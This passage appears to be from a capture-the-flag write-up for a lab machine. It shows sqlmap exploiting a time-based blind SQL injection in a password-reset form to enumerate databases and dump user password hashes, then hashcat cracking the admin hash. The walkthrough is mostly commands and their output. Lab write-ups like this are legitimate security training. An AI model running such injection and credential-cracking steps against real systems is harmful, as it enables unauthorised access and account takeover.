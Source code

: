 The application was vulnerable to time-based blind SQL injection, revealing two databases:
```bash
❯ sqlmap -r forgot_password_request.txt --dbs --batch

POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable

retrieved: monitorsthree_db
available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

Further enumeration of the tables:
```bash
❯ sqlmap -r forgot_password_request.txt -D monitorsthree_db --tables --batch

retrieved: users
Database: monitorsthree_db
[6 tables]
+---------------+
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
| users         |
+---------------+
```

Retrieved credentials from the users table using a sqlshell from sqlmap:
```sql
select username, password from monitorsthree_db.users [2]:
[*] admin,31a181c8372e3afc59dab863430610e8
[*] dthompson,c585d01f2eb3e6e1073e92023088a3dd
```

Cracking the hash with hashcat:
```bash
❯ hashcat -m 0 -a 0 admin_hash.txt ~/htb/code/rockyou.txt
hashcat (v6.2.6) starting

31a181c8372e3afc59dab863430610e8:greencacti2001

Started: Wed Jan 15 23:30:09 2025
Stopped: Wed Jan 15 23:30:11 2025
```

These credentials work for the login prompt in the landing page: